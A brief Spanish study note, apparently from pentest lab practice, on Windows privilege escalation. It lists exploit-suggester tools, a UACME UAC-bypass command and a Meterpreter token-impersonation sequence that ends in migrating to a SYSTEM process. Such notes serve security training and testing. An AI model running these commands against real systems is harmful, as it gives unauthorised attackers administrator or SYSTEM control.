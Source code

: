 ```yaml
---
created: 2024-12-21

---
```

-------------------------------------
- tags: #windows #privilegeescalation #kernel #metasploit #meterpreter 
-------------------
-> systeminfo
-> 


### Módulo de Metasploit para búsqueda de vulnerabilidades
	use post/multi/recon/local_exploit_suggester
(Hay que especificar la sesión)

### (Windows Exploit Suggester) GitHub para buscar vulnerabilidades

[Link al repositorio de GitHub](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


### UAC bypass (si estamos en el grupo de administradores)
https://github.com/hfiref0x/UACME

##### Uso:
	akagi64.exe 23 C:\Temp\exploit.exe
	migrate x  (Siendo x el PID de un proceso ejecutado por NT AUTHORITY\SYSTEM)


### SeImpersonatePrivilege
	whoami /priv

Teniendo una sesión meterpreter ->

	get_privs
	load incognito
	list_tokens -u
	impersonate_token "ATTACKDEFENSE\Administrator"
	pgrep explorer
	migrate x (Siendo x el PID de explorer)


(Puede que tengamos que repetir esto para llegar a ser NT AUTHORITY\SYSTEM)

![[Pasted image 20230730135839.png]]
![[Pasted image 20230730140203.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
